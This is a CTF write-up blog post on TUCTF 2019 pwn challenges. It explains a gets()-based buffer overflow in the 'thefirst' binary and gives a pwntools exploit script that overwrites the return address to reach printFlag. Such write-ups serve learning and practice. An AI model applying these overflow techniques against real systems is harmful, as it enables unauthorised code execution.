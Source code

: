 ```yaml
---
layout: post
title: "TUCTF 2019 - Pwn & Rev Challenges"
date: 2019-12-02
author: "Shreyansh Singh"
description: "My writeups for some of the PWN challenges of TUCTF 2019."
tags: ["reverse engineering", "pwn", "ctf", "writeups"]
categories: ["Information Security"]
giscus_comments: true
related_posts: false
permalink: "post/2019-12-02_tuctf-pwn-2019/"
featured: false
toc:
  sidebar: left
---
```


{% include image.liquid url="/assets/img/posts_images/tuctf/featured.png" description="" %}

----

I couldn't give much time to the CTF because of some college work, but I gave a shot at the PWN challenges. The challenges became offline later but I still decided to work on the exploit scripts to make them work locally.

---

# Pwn Challenges

## thefirst - 379 pts

We can see in the image below that `gets` is being used to take the input. Hence it can be exploited for _buffer overflow_. First, using GDB (with GEF), we find that the offset required to overflow the buffer is 24.

{% include image.liquid url="/assets/img/posts_images/tuctf/thefirst_1.png" description="Disassembly of main" %}

This can be done using `pattern create 50` and then using that pattern to find the crash offset.

{% include image.liquid url="/assets/img/posts_images/tuctf/gef_1.png" %}

{% include image.liquid url="/assets/img/posts_images/tuctf/gef_2.png" %}

Also inspecting the functions, we see that there is a `printFlag` function at 0x80491f6. So, our objective is to jump there.

The following script is the exploit.

```python
from pwn import *

p = process("./thefirst")
# p = remote("chal.tuctf.com", 30508)
print_flag_addr = 0x80491f6
offset = 20

payload = "A"*offset
payload += "BBBB"
payload += p32(print_flag_addr)

f = open('payload', 'wb')
f.write(payload)
f.close()

p.recvuntil('> ')
```